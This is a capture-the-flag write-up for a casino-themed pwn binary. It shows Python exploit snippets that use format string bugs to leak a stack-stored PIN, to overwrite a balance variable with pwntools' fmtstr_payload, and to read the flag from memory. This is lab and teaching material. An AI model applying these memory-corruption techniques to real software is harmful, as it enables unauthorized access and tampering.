


# mm

## Description

Tags: _pwn_

## Recon

I was given a binary that implements a casino-themed game with balance and flag purchasing functionality.

Using Binary Ninja, I identified several key variables:
- BALANCE - user's current balance
- TARGET_BALANCE - required balance to buy the flag (need at least `0x13370000`)
- FLAG - the flag string stored in memory
- VIP_PIN - a PIN required for certain operations

The binary contains multiple format string vulnerabilities that can be exploited to:
1. Leak the VIP PIN from the stack
2. Overwrite the BALANCE variable
3. Read the FLAG from memory

## Exploitation

### Leaking the VIP PIN

Using format string attacks, I discovered the VIP PIN was stored on the stack. Through fuzzing different format string offsets, I found it at stack position 8.

```python
io.sendline(b"%p " * 20)

data = io.recvuntil(b"pin:")

parts = data.split()
pin = None

for i, p in enumerate(parts):
    if p.startswith(b"0x"):
        value = int(p, 16)
        raw = p64(value)

        if raw.isdigit():
            pin = raw.decode()
            print("bastard at: ", i)
            break

if pin == None:
    log.failure("No pin")

print("pin = ", pin)
```

### Overwriting the Balance

Once I knew the PIN, I could proceed to overwrite the balance variable.
I used `pwntools` convenient `fmtstr_payload` function to generate a format string that writes directly to the BALANCE address:

```python
payload = fmtstr_payload(
    OFFSET,
    {BALANCE: TARGET_BALANCE},
    write_size="short"
)
```

The challenge was finding the correct offset for the format string. 
Starting from the VIP PIN's position (stack position 8), I used educated guessing to test nearby offsets.

Offset testing:
- Offsets 8 & 9 → wrote to wrong locations
- Offset 10 → successfully overwrote BALANCE to `0x13370000`

The screenshot confirmed the balance was set correctly:


### Reading the Flag

With sufficient balance, I could now purchase and read the flag. Using Binary Ninja, I located the FLAG address.

To read the flag from memory, I crafted another format string payload:

```python
payload = f"%OFFSET$s".encode().ljust(8, b"\0") + p64(FLAG)
```

Where:
- `%OFFSET$s` - format string to read a string pointer from the stack
- `.ljust(8, b"\0")` - This pads the format string with null bytes to align it (8 is used because we this is on a 64 Bit machine)
- The pointer to FLAG address is appended to the format string buffer

When executed, this read the flag string from memory and printed it:


```
Thank you for your feedback:
CLA{wtf_why_3_format_strings_YfrNhoGmUvZn}
```

## Flag

`CLA{wtf_why_3_format_strings_YfrNhoGmUvZn}`
